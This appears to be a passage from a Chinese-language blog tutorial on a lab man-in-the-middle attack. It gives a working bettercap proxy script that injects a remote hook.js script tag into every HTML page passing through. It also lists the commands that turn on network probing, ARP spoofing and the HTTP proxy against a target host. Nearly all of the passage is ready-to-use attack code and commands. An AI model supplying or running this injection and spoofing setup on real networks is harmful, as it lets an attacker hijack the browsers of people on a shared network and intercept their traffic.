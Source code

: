 然后你就可以启动了，登录的时候用的就是你设置的用户名个密码。

好了，话不多说，我们继续。

接下来我们要做的是写一个 js 脚本，给 bettercap 用。

```js
function onResponse(req,res){
    if(res.ContentType.indexOf('text/html')==0){
        var body=res.ReadBody();
        if(body.indexOf('</head>')!=-1){
            res.Body=body.replace(
                '</head>',
               '<script type="text/javascript" src="http://192.168.101.15:3000/hook.js"></script></head>'
            );
            }
        }
}
```

将这个文件保存到你知道的目录，我将它保存到 `/home/weepingdogel/Downloads/hack/192.168.101.43/hack.js`

然后我们回到 bettercap，设置 `http.proxy.script` 这个参数为上面这个路径：
```txt
set http.proxy.script /home/weepingdogel/Downloads/hack/192.168.101.43/hack.js
```

然后依次启动 `net.probe`、`arp.spoof`、`http.proxy`

```txt
net.probe on
```

```txt
arp.spoof on
```

```txt
http.proxy on
```
嗯... 接下来就启动好了...

![](/img/2021-02-02_15-12.png)
